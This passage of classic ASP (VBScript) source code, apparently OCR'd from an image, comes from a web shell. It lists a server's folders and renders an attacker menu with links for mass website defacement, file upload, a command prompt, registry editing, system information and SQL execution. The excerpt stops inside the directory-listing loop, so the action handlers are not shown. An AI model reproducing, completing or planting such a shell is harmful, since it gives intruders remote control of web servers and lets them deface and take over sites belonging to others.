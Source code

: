             While pos2 &lt;&gt; 0
                If Instr(pos + 1,caminho,"\") &lt;&gt; 0 Then
                    pos = Instr(pos + 1,caminho,"\")
                Else
                    pos2 = 0
                End If
            Wend
            raiz = Left(caminho,pos)
        Else
            raiz =  trim(Request.QueryString("raiz")) & "\"
        End If
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")
        Set MonRep = ObjFSO.GetFolder(raiz)
        Set ColFolders = MonRep.SubFolders
        Set ColFiles0 = MonRep.Files
        Response.Write "&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=mass&massact=test&path=" & Replace(raiz,"\","|") & "', 'win1','width=600,height=300,scrollbars=YES,resizable')""&gt;MASS TEST IN " & UCase(raiz) & "&lt;/a&gt;&lt;/font&gt;&lt;br&gt;&lt;br&gt;"
        Response.Write "&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=mass&massact=dfc&path=" & Replace(raiz,"\","|") & "', 'win1','width=700,height=300,scrollbars=YES,resizable')""&gt;MASS DEFACE IN " & UCase(raiz) & "&lt;/a&gt;&lt;/font&gt;&lt;br&gt;&lt;br&gt;"
        Response.Write "&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=upload&path=" & Replace(raiz,"\","|") & "', 'win1','width=500,height=100,scrollbars=YES,resizable')""&gt;UPLOAD FILE TO " & UCase(raiz) & "&lt;/a&gt;&lt;/font&gt;&lt;br&gt;&lt;br&gt;"
        Response.Write "&lt;font face='arial' size='1'&gt;"
        Response.Write "&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=cmd', 'win1','width=450,height=200,scrollbars=YES,resizable')""&gt;PROMPT&lt;/a&gt;"
        Response.Write " - &lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=info', 'win1','width=760,height=450,scrollbars=YES,resizable')""&gt;SYS INFO&lt;/a&gt;"
        Response.Write " - &lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg', 'win1','width=550,height=200,scrollbars=YES,resizable')""&gt;REGEDIT&lt;/a&gt;"
        Response.Write " - &lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=search&path=" & Replace(raiz,"\","|") & "', 'win1','width=500,height=100,scrollbars=YES,resizable')""&gt;SEARCH&lt;/a&gt;"
        Response.Write " - &lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=sqlserver', 'win1','width=550,height=150,scrollbars=YES,resizable')""&gt;EXECUTE SQL&lt;/a&gt;"
        Response.Write " - &lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=about', 'win1','width=550,height=250,scrollbars=YES,resizable')""&gt;ABOUT&lt;/a&gt;"
        Response.Write "&lt;/font&gt;&lt;br&gt;&lt;br&gt;"
        Response.Write "&lt;font face='arial'&gt;&lt;b&gt;Root Folder: " & raiz & "&lt;/b&gt;&lt;/font&gt;&lt;br&gt;&lt;br&gt;"
        If CInt(Len(raiz) - 1) &lt;&gt; 2 Then
            barrapos = CInt(InstrRev(Left(raiz,Len(raiz) - 1),"\")) - 1
            backlevel = Left(raiz,barrapos)
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;b&gt;&lt;DIR&gt;&lt;a href='" & Request.ServerVariables("SCRIPT_NAME") & "?raiz=" & backlevel & "'&gt; . . &lt;/font&gt;&lt;/b&gt;&lt;/a&gt;&lt;br&gt;"
        Else
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;b&gt;&lt;DIR&gt;&lt;a href='" & Request.ServerVariables("SCRIPT_NAME") & "?raiz=root'&gt; . .&nbsp;&lt;/font&gt;&lt;/b&gt;&lt;/a&gt;&lt;br&gt;"
        End If
        Response.Write "&lt;table border=""0"" cellspacing=""0"" cellpadding=""0"" &gt;"
        for each folderItem in ColFolders